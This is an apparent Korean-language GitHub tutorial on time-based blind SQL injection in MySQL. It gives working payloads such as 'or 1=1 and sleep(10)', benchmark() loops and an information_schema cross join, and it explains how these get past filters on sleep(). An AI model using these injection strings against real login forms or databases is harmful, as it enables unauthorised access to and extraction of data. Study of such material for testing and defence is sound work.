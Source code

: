 # Time based blind sqli

#### Time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이므로 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 이처럼 sleep() 같은 시간지연 함수가 필터링 될때에는 다양한 방법중에
자주 쓰이는 방법은 3개의 함수, 쿼리가있다.

```sql
sleep()

benchmark()

SELECT count(*) FROM information_schema.columns A , information_schema.columns B , information_schema.columns C;
```

이 3개의 방법을을 응용하여 

time-based sql injection 쿼리를 만든다면

이렇게 완성된다.
```sql

SELECT * FROM member WHERE id='' or sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and benchmark(73900000*10,md5(1));

SELECT * FROM member WHERE id='' or 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```

<br>

### MySQL 시간 지연 우회

* * *

#### sleep()

__sleep() 함수는 사용할시에 시간지연을 시킨다.__

sleep(지연시키고싶은 시간(초 단위))

sleep() 함수는 정속적으로 지연되면 True 
그렇지 않다면 False 를 반환한다.

* sleep 함수의 지연되는 시간 단위는 각 운영체제의 설정에 따라 다를 수 있다.

<br>

* * *

#### benchmark()

__benchmark() 함수는 특정 연산 또는 구문을 반복시킨다.__

menchmark(반복할 개수, 연산)

이런식으로 인자를 넣어서 자신이 원하는 만큼만 반복을 시킨다음

반복하는 과정에서 시간지연이 생기게 된다.

<br>

* * *
#### information_schema.columns

해당 쿼리는 수많은 컬럼들을 COUNT(*) 로 한번에

불러오는 과정에서 시간지연이 생기게 되버린다.

![information image](./image/mysql-informaction.png)

밑의 1 row in set (42.55 sec) 가 나온것을 확인할수있다.

즉 count(*)로 합치면서 information_schema.columns A 와 B 를 SELECT 하면서

약 42 초가 걸리게 된다.

<br>

* * *

### 마무리

핵심은 저런 함수만 사용이 가능하는것이 아닌

Time based sql injection 인 만큼

시간 지연 가능한 쿼리만 잘 짜서 요청을 하면 된다.
